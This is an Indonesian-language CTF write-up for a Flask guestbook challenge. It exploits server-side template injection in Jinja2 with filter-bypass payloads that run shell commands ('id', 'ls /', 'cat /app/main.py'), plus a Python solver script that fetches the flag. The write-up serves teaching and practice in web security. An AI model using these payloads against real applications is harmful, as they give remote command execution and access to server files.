

## Guestbook (Beta)

<details>
  <summary>Deskripsi</summary>
  
  > You know what you do!
  >
  > http://0x7e7ctf.zerobyte.me:40009/
  >
  > Author: novran
  
</details>


Diberikan sebuah challenge web yang diminta untuk menginputkan Nama, yang jika disubmit akan tampil Namanya


Kemudian kami coba cari Tech Stack pada webnya ternyata menggunakan Flask, mengingat Flask ini dapat bisa juga vulnerable dengan SSTI apabila kesalahan dalam scriptingnya.


Lalu kami coba lakukan exploitasi pada inputnya, setelah saya menginputkan basic payload umum pada SSTI `{{7*7}}` dan ternyata benar bahwa kita bisa melakukan SSTI disini.


Berikut adalah link repo segala payload yang kami gunakan untuk melakukan bypass filters https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2




```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```


```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls /')|attr('read')()}}
```


Dapat dibuktikan bahwa payload tersebut telah berhasil dieksekusi, oleh karena itu tinggal cari flag dan baca isi file saja.


```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /app/main.py')|attr('read')()}}
```

Penyelesaian dengan Solver

```python
import requests
import re

url = "http://0x7e7ctf.zerobyte.me:40009"
endpoint = "/?name="
payload = "{{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuiltins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimport\x5f\x5f%27)(%27os%27)|attr(%27popen%27)(%27cat%20/app/main.py%27)|attr(%27read%27)()}}"

response = requests.get(url + endpoint + payload)

flag = re.findall(r'0byteCTF\{[A-Za-z0-9_]+\}', response.text)
print(flag)
```

<details>
  <summary>Flag</summary>
  
  > `0byteCTF{Th3_M4n_wh0_Th1nks_h3_C4n_4nd_th3_M4n_wh0_Th1nks_h3_C4nt_4r3_B0th_R1ght}`
  
</details>
